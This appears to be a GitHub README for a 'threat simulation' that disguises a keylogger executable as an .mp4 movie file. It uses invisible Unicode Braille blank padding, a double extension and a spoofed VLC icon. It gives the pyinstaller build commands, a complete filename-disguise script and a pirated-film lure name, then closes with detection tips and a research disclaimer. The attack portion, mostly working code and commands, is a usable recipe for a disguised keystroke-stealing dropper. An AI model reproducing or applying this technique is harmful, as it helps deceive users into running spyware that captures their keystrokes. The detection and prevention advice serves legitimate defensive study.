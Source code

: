 # 🦠 Braille Extension Evasion – Threat Simulation

## 📁`braille_extension`

A threat simulation showcasing how attackers can use Unicode Braille Pattern Blank characters (U+2800) to disguise `.exe` files as media files like `.mp4`. This evasion technique abuses double extensions and icon spoofing to deceive users and bypass casual inspection.

---

## 🎯 Objective

Simulate a Windows executable that:

1. Appears as a video file (e.g., `.mp4`) using a double extension
2. Uses invisible Braille characters to push the real extension out of view
3. Embeds a VLC-like icon
4. Executes a popup message for 5 seconds
5. Silently starts a keylogger that logs all keystrokes to `keylogs.txt`

---

## 🔧 Setup & Compilation

### 1️⃣ `logger.py` — The payload script

This Python script:

* Displays a VLC-style popup
* Silently logs keystrokes (non-repeating) to a local file

```bash
pip install pynput pyinstaller
pyinstaller --onefile --noconsole --icon=vlc.ico logger.py
```

✅ Output: `dist/logger.exe`
, rename this executable to whatever movie name you prefer

---

### 2️⃣ `rename_braille.py` — Rename with Braille Padding

This script renames the executable with a fake `.mp4` extension, adds Braille padding, and keeps `.exe` at the end.

```python
import os, shutil

def rename_with_icon_safe_braille(original_file, fake_ext="mp4"):
    braille_blank = "\u2800"
    real_ext = ".exe"
    base_name = os.path.splitext(os.path.basename(original_file))[0]
    fake_prefix = f"{base_name}.{fake_ext}"

    max_filename_length = 200
    padding_space = max_filename_length - len(fake_prefix) - len(real_ext)
    braille_padding = braille_blank * max(0, padding_space)
    new_name = f"{fake_prefix}{braille_padding}{real_ext}"

    new_path = os.path.join(os.getcwd(), new_name)
    shutil.copy2(original_file, new_path)
    print(f"[\u2713] File copied and renamed to: {new_path}")
```

Run:

```bash
python rename_braille.py
```

✅ Output: `Mission Impossible – The Final Reckoning 1080p WebRIP HEVC x256 Double Audio.mp4⠀⠀⠀⠀⠀⠀⠀⠀.exe`

---

## 🧪 Execution Result

Upon double-clicking the renamed file:

1. A fake VLC popup is shown for 5 seconds.
2. Keystrokes typed by the user are silently logged to `keylogs.txt`.

📁 `keylogs.txt` will appear in the same directory.

🎥 **PoC**: 
![POC](poc.gif)


## 🕵️ Detection & Awareness

### 🔍 Detection:

* Monitor for double extension files (`.mp4.exe`, `.pdf.exe`)
* Inspect for Unicode characters like `U+2800` in filenames
* Alert on filenames with >150 characters or suspicious whitespace

### 🛡️ Prevention:

* Enable display of file extensions in Windows
* Use endpoint protection that inspects filename Unicode blocks
* Block execution of files from `Downloads` or temp locations
* Educate users on misleading file names

> ⚠️ This simulation is created strictly for awareness and defensive research. Do not deploy in production or misuse.
